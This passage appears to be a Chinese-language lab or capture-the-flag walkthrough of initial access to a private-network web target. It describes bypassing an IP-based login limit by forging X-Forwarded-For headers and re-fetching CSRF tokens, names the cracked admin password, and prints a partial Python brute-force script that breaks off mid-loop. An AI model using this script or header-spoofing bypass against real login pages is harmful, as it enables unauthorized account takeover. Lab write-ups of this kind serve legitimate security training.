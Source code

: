 # 二、初始访问

## Web 渗透 (Port 80)

### 1. 登录绕过与爆破

访问 `http://192.168.205.230`，进入一个登录页面。`secret.php` 页面提示“大门似乎无法被暴力打开”，暗示可能存在防爆破机制。

经过测试，发现登录验证接口 `check.php` 存在 CSRF Token 校验，并且有基于 IP 的登录尝试限制。通过在 HTTP 请求头中伪造 `X-Forwarded-For` 字段，可以绕过此 IP 限制。

编写 Python 脚本，在每次尝试密码前都先请求登录页获取新的 CSRF Token，并伪造来源 IP，成功爆破出 `admin` 用户的密码为 `superman1`。

**攻击脚本**

```python
import requests
import re
from time import sleep
from random import randint

LOGIN_URL = "http://192.168.205.230/login.php"
CHECK_URL = "http://192.168.205.230/check.php"
USERNAME = "admin"
PASSWORD_LIST_PATH = "/usr/share/wordlists/rockyou.txt"

def gen_ip():
    return f"{randint(1,255)}.{randint(1,255)}.{randint(1,255)}.{randint(1,255)}"

def main():
    print("--- 开始攻击 ---")
    print(f"[*] 目标URL: {CHECK_URL}")
    print(f"[*] 用户名: {USERNAME}")
    print(f"[*] 密码字典: {PASSWORD_LIST_PATH}")
    print("-" * 20)

    session = requests.Session()

    try:
        with open(PASSWORD_LIST_PATH, "r", encoding='latin-1') as f:
            for pwd in f:
                pwd = pwd.strip()
                if not pwd:
                    continue

                try:
                    ip = gen_ip()
                    headers = {
                        'X-Forwarded-For': ip,
                        'X-Originating-IP': ip,
                        'X-Remote-IP': ip,
                        'X-Remote-Addr': ip
                    }
                    
                    print(f"[*] 正在为密码 '{pwd}' 获取新Token... (IP: {ip})")
                    r = session.get(LOGIN_URL, headers=headers)
                    token_match = re.search(r'id="csrfToken" value="([a-f0-9]{16})"', r.text)
                    if not token_match:
                        print("[!] 无法获取Token，可能被封IP或页面变更。")
                        break

                    token = token_match.group(1)
                    print(f"[*] 获取成功, Token: {token}")
```